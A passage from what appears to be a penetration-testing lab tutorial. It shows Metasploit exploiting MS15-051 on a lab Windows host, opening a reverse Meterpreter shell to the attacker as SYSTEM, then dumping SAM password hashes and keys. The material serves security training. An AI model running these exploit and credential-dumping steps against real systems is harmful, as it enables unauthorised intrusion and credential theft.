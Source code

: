 ```shell-session

msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0

LHOST => tun0


msf6 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Launching notepad to host the exploit...
[+] Process 844 launched.
[*] Reflectively injecting the exploit DLL into 844...
[*] Injecting exploit into 844...
[*] Exploit injected. Injecting payload into 844...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

From here, we can proceed to use the plethora of Meterpreter functionalities. For example, extracting hashes, impersonating any process we want, and others.

**MSF - Dumping Hashes**

Meterpreter

```shell-session
meterpreter > hashdump

Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::


meterpreter > lsa_dump_sam

[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182

SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

RID  : 000001f4 (500)
User : Administrator
  Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
  Hash NTLM: d6908f022af0373e9e21b8a241c86dca

RID  : 000001f5 (501)
User : Guest

RID  : 000003e9 (1001)
User : SUPPORT_388945a0
```
